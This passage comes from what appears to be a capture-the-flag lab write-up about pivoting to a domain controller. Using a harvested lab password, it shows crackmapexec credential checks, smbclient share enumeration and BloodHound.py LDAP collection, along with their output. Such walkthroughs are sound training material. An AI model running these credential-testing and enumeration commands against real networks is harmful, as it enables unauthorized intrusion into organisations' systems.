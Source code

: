 The flag is in the `/root` directory as shown above, meaning we have compromised the first machine for this chain.

# Pivoting to DC

For the next box, I'm assuming that we'll be able to start enumerating the machine with `peter.turner`'s valid credentials.

There is LDAP and SMB on the machine, so we could potentially verify whether this user is able to access anything. `crackmapexec smb 10.10.194.118 -u 'peter.turner' -p 'b0cwR+G4Dzl_rw'

```
SMB         10.10.194.117   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hybrid.vl) (signing:True) (SMBv1:False)
SMB         10.10.194.117   445    DC01             [+] hybrid.vl\peter.turner:b0cwR+G4Dzl_rw

SMB         10.10.194.117   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hybrid.vl) (signing:True) (SMBv1:False)
LDAP        10.10.194.117   445    DC01             [-] hybrid.vl\peter.turner:b0cwR+G4Dzl_rw Error connecting to the domain, are you sure LDAP service is running on the target ?
```

We'll enumerate the SMB instance first to see if we can find anything. `smbclient -L 10.10.194.117 -U 'peter.turner'`

```
Password for [WORKGROUP\peter.turner]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share
```

Seems like everything on SMB is relatively normal. NETLOGON and SYSVOL are normal shares, and we can't access any of the other shares. Just to verify though, I did go into NETLOGON and SYSVOL to ensure there wasn't anything there, which there wasn't.

The error we had before with LDAP is an error I've ran into before - we know that LDAP is running on the target based on the NMAP scan. Let's try and use `bloodhound-python` to enumerate the LDAP forest.
`git clone https://github.com/dirkjanm/BloodHound.py.git`
`python3 bloodhound.py -d 'hybrid.vl' -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -c all -ns 10.10.194.117 --zip`

This will dump the LDAP forest for us, and any valid domain objects that it can find based on the credentials that we have.

```
INFO: Found AD domain: hybrid.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.hybrid.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.hybrid.vl
INFO: Found 14 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: mail01
```